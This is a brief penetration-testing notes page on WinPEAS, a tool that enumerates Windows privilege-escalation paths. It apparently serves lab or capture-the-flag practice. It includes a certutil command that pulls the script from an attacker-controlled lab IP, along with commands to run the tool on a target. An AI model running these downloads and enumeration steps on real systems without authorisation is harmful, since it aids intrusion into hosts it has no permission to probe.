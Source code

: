 # Winpeas

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts.**

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS" %}

## winpeas.ps1

Download or copy the script from the repo bellow:

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1

certutil -urlcache -f http://10.10.14.86/winPEAS.ps1 winPEAS.ps1
```
{% endcode %}

```
.\winpeas.ps1
```



## winpeas.exe

```powershell
C:\> winpeas.exe > outputfile.txt
```

